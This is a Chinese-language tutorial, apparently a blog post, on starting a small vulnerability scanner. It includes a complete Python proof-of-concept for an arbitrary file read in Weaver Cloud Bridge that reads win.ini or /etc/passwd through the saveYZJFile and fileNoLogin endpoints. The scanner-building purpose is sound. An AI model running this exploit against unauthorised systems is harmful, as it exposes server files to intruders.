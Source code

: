 我们先建立好对应的文件夹框架，为了方便后期扩展，实现一个简单的漏扫平台。

然后再开始写对应的 python 脚本程序

值得注意的是，由于我们要导入 poc 和其他公共类的包，因此这里我们新建目录的时候不要选择新建文件夹，而选择新建 python package。

或者你可以自行创建一个__init__.py 文件，这样 import 的时候就可以搜索到对应包了

编写泛微云桥任意文件读取 POC
----------------

这个 POC 很简单，熟悉 python 基本语法之后会用 requests 就可以了。

我们只需要用 python 去实现我们复现漏洞这个过程就行了，尤其是漏洞复现的这种 PoC 或者 Exp 本身也是在其他大佬 Poc 基础上变成一个自己的工具而已，只不过遇到有些不一样的漏洞，会遇到一些奇奇怪怪的 bug23333.

那么我们确定一下思路

1. 访问第一个 payload，拿到响应包，其中 id 就是我们要的值（这里也就是我们判断漏洞的第一个点，这里需要考虑到 windows 和 Linux 两种操作系统不同的敏感文件的路径，windows 我一般习惯用 C:/windows/win.ini，linux 习惯用 / etc/passwd）

2. 第二步，我们拿到相应包中的 ID 值之后，加到第二个 payload 后面，然后我们再访问一下，拿到我们要读取文件的内容，拿到内容后我们来判断一下漏洞是否存在，这里可以字符串判断尽量写的要减少误报

（简单的说就是匹配一些文件中一定会存在的字符串，但是要判断的字符串尽量不要太短，以防误报）

```
# _*_  coding:utf-8 _*_
# 泛微云桥任意文件读取

import requests
import urllib3 

urllib3.disable_warnings() #忽略https证书告警

def poc(url):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36",
    }
    try:
        paths = ['C:/windows/win.ini','etc/passwd'] #需要读取的文件列表（因为一般存在windows或者linux上）
        for i in paths:
            payload1 = '''/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///%s&fileExt=txt'''%i
            genfile = url + payload1
            res1 = requests.get(genfile, verify=False, allow_redirects=False, headers=headers, timeout=15) #第二次请求，获取随机生成的id值
            try:
                id = res1.json()['id']
                if id: #如果值存在继续进行Step2，不存在继续循环。
                    payload2 = url + '/file/fileNoLogin/' + id
                    #print payload2
                    res2 = requests.get(payload2, verify=False, allow_redirects=False, headers=headers, timeout=15)
                    break
            except:
                continue
        if 'for 16-bit app support' in res2.text or 'root:x:0:0:' in res2.text: #判断漏洞是否存在，windows+linux的两种判断方法
            return payload2 #返回结果
        else:
            return None
    except Exception as e:
        return None
```
